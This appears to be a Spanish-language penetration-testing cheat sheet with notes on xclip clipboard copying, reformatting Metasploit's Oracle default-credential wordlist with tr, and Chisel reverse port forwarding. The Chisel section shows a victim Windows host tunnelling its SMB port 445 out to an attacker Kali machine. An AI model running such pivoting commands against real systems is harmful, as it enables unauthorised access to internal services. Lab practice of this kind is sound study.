 ## XCLIP

Se usa para copiar de la consola al porta papeles.

```
cat file| xclip -sel clip 
```

Copiar desde la consola a VM a Windows...

```bash
echo "80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162" |  xclip -i -sel p -f | xclip -i -sel c

#La version corta pero que imprime lo que vas a copiar(cosa que yo no le veo problema)

echo "80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,masa" |  xclip -i -sel p -f

```

> https://unix.stackexchange.com/questions/69111/how-to-target-multiple-selections-with-xclip/69134#69134

## Remplazar caracteres TR 

Para remplazar caracteres usa tr de la siguiente manera

```
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/'
ahora queda asi
user pass
user/pass
```

## Chisel (traerse un puerto para que tu puero local sea el puerto de la maquina victima)

Recordar la maquina atacante es el servidor y la maquina vitima el cliente. En el mismo chisel dice que es reverse port forwarding.

```
#Kali
 ./chisel server --reverse -p 4321

### Windows victima

.\chisel.exe client IPKALI:4321 R:445:127.0.0.1:445

# Ejemplo
./chisel cliente KALI_IP:PORT    PORT_VICTIM:A_DONDE:PORT_KALI
./chisel client 10.10.14.57:1234 R:8000:localhost:8001

```
